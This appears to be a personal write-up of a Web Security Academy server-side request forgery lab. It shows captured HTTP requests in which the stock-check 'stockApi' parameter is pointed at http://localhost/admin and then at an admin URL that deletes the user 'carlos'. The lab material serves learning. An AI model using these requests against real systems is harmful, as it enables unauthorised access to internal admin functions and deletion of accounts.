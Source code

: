 https://0a46004a049fa31d80b13a1a004600c0.web-security-academy.net/product?productId=1

Let's inspect the "Check stock" function:

![](_attachment/Pasted%20image%2020250326082005.png)

```http
POST /product/stock HTTP/2
Host: 0a46004a049fa31d80b13a1a004600c0.web-security-academy.net
Cookie: session=T4qmni5r0LJUiFFpmwsch92IV53LDjpa
Content-Length: 107
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: it-IT,it;q=0.9
Sec-Ch-Ua: "Not:A-Brand";v="24", "Chromium";v="134"
Content-Type: application/x-www-form-urlencoded
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Accept: */*
Origin: https://0a46004a049fa31d80b13a1a004600c0.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a46004a049fa31d80b13a1a004600c0.web-security-academy.net/product?productId=1
Accept-Encoding: gzip, deflate, br
Priority: u=1, i

stockApi=http%3A%2F%2Fstock.weliketoshop.net%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D1%26storeId%3D2
```


there is a call to `stockApi..`

let's change to `http://localhost/admin`

```http
POST /product/stock HTTP/2
Host: 0a46004a049fa31d80b13a1a004600c0.web-security-academy.net
Cookie: session=T4qmni5r0LJUiFFpmwsch92IV53LDjpa
Content-Length: 31
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: it-IT,it;q=0.9
Sec-Ch-Ua: "Not:A-Brand";v="24", "Chromium";v="134"
Content-Type: application/x-www-form-urlencoded
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Accept: */*
Origin: https://0a46004a049fa31d80b13a1a004600c0.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a46004a049fa31d80b13a1a004600c0.web-security-academy.net/product?productId=1
Accept-Encoding: gzip, deflate, br
Priority: u=1, i

stockApi=http://localhost/admin
```

we get a valid response:

![](_attachment/Pasted%20image%2020250326082254.png)

simply as that:

```http
POST /product/stock HTTP/2
Host: 0a46004a049fa31d80b13a1a004600c0.web-security-academy.net
Cookie: session=T4qmni5r0LJUiFFpmwsch92IV53LDjpa
Content-Length: 31
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: it-IT,it;q=0.9
Sec-Ch-Ua: "Not:A-Brand";v="24", "Chromium";v="134"
Content-Type: application/x-www-form-urlencoded
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Accept: */*
Origin: https://0a46004a049fa31d80b13a1a004600c0.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a46004a049fa31d80b13a1a004600c0.web-security-academy.net/product?productId=1
Accept-Encoding: gzip, deflate, br
Priority: u=1, i

stockApi=http://localhost/admin/delete?username=carlos
```

![](_attachment/Pasted%20image%2020250326082348.png)

